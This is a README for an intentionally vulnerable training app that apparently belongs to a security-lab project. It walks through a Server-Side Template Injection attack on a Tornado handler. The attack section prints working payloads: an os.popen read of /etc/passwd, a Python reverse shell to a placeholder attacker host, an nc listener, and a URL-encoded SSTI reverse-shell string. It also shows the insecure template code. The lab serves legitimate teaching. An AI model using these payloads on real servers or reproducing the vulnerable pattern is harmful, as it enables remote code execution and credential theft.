


# SSType

<p align="center"></br>
    <a href="README_PT_BR.md"></a></p>

SSType is a simple Python web application that contains an example of a Server-Side Template Injection vulnerability in Tornado. In this example, a specific subcategory of Injection will be exemplified: Server Side Injection or SSTI.

## Index

- [SSType](#sstype)
  - [Index](#index)
  - [What is Injection?](#what-is-injection)
  - [Setup](#setup)
  - [Get to know the app 💉](#get-to-know-the-app-)
  - [Attack Narrative](#attack-narrative)
    - [👀](#)
      - [Lack of input validation allows injection of OS commands](#lack-of-input-validation-allows-injection-of-os-commands)
    - [🔥](#-1)
  - [Secure this app](#secure-this-app)
  - [PR solutions](#pr-solutions)
  - [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **Server-Side Template Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/sstype
```

```sh
make install
```

Then simply visit [localhost:10001][app], as exemplified below:

<p align="center"></p>

## Get to know the app 💉

To properly understand how this application works, you can do some search using `name` as a query string using a [browser](http://localhost:10001/?name=Vitor) or using `curl` in a terminal:

```sh
curl http://localhost:10001/?name=Vitor
```

<p align="center"></p>

## Attack Narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of OS commands

After reviewing the application code, it was possible to see that the user input (`name` querystring variable) is not being handled properly before being rendered in the template, as shown in the following code snippets:

```python
def get(self):
    name = self.get_argument('name', '')
    template_data = tmpl.replace("NAMEHERE",name)
    t = tornado.template.Template(template_data)
    self.write(t.generate(name=name))
```

```html
<h3>Hello: NAMEHERE</h3>
<h2>Try with /?name=YourName</h2>
```

To confirm that the input field is vulnerable, the following payload could be used to test if the result of `4*4` could be rendered in the page:

```
http://localhost:10001/?name={{4*4}}
```

When this request gets to the application, `NAMEHERE` will be replaced into the HTML and it will execute the math, returning `16`:

```html
<h3>Hello: {{4*4}}</h3>
<h2>Try with /?name=YourName</h2>
```

<p align="center"></p>

### 🔥

An attacker could now create any malicious command that, in theory, it will be executed. The first step we could do is trying to read the content of the `/etc/passwd` file. To do that, we will use the following Python command as the `name` query string:

```python
{{os.popen('cat /etc/passwd').read()}}
```

<p align="center"></p>

Great! Now that we can execute commands on the server hosting the application, a malicious Python script to provide us a shell somehow on the victim's server can be created. Let's take a look at the following example:

```python
import socket,subprocess,os

# creates a socket to estabilish the connection between the victim and the attacker
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER-IP","ATTACKER-PORT"))

# configures STDIN, STDOUT and STDERR to be used in the shell
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# spawns an interactive sh shell
p=subprocess.call(["/bin/bash","-i"]);
```

To receive a reverse shell, we first need to use `nc` in our terminal to listen for any connections coming to our `ATTACKER-IP` and `ATTACKER-PORT` and later execute this Python script on the victim server:

```sh
nc -nlv ATTACKER-PORT
```

But how can we use this payload inside the `name` parameter? To do so, we could compact it using multiples `;` to separate each instruction, resulting in the following payload:

```
Don't forget to replace `ATTACKER-IP` and `ATTACKER-PORT` below!
```

```python
{{os.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER-IP\",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'").read()}}
```

However, as there might be some special characters in this string, we need to escape them before injecting it in the vulnerable application (this [online URL encoder](https://www.urlencoder.org/) may help) and hope for a shell:

```python
%7B%25import%20os%25%7D%7B%7Bos.popen%28%22python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ATTACKER-IP%5C%22%2CATTACKER-PORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22%2Fbin%2Fbash%5C%22%2C%5C%22-i%5C%22%5D%29%3B%27%22%29.read%28%29%7D%7D
```

<p align="center"></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to run commands on the server.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ASSType)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
